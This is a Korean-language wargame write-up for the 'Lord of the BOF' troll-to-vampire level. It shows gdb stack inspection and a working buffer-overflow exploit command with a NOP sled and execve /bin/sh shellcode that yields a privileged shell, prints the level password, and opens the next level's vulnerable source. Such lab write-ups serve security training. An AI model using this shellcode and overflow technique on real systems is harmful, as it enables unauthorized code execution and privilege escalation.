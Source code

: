 ### Solution

간단하게 argv를 크게 주어서 스택 영역을 늘려서 주소를 0xbfff가 아니게 만들면 쉽게 해결할 수 있다.

``` gdb
(gdb) b *main+6
Breakpoint 3 at 0x8048436
(gdb) r `python -c 'print "A"*44+"\x30\x30\xfe\xbf"+"\x90"*32768+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*32768'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/troll/vampir2 `python -c 'print "A"*44+"\x30\x30\xfe\xbf"+"\x90"*32768+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*32768'`

Breakpoint 3, 0x8048436 in main ()
(gdb) x/x $ebp
0xbffefac8:	0xbffefae8
(gdb) x/x $ebp+0xc
0xbffefad4:	0xbffefb14
(gdb) x/wx 0xbffefb14
0xbffefb14:	0xbffefc06
(gdb) x/wx 0xbffefb18
0xbffefb18:	0xbffefc1a
(gdb) x/s 0xbffefc1a
0xbffefc1a:	 'A' <repeats 44 times>, "00", '\220' <repeats 152 times>...
```

argv[1]의 길이를 0x10000보다 크게 주어서 주소를 0xbfff로 시작하는 것이 아니라 0xbffe로 시작하도록 변형했다. 이를 통해 쉘코드 주소를 대략 0xbffefd30으로 뛰면 놉슬레드를 통해 쉘을 획득 할 수 있다.

``` bash2
~/vampire `python -c 'print "A"*44+"\x30\xfd\xfe\xbf"+"\x90"*32768+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*32768'`

bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
bash$ my-pass
euid = 509
music world
```

# vampire

password is music world

### Problem

``` bash2
[vampire@localhost vampire]$ cat skeleton.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - skeleton
        - argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
```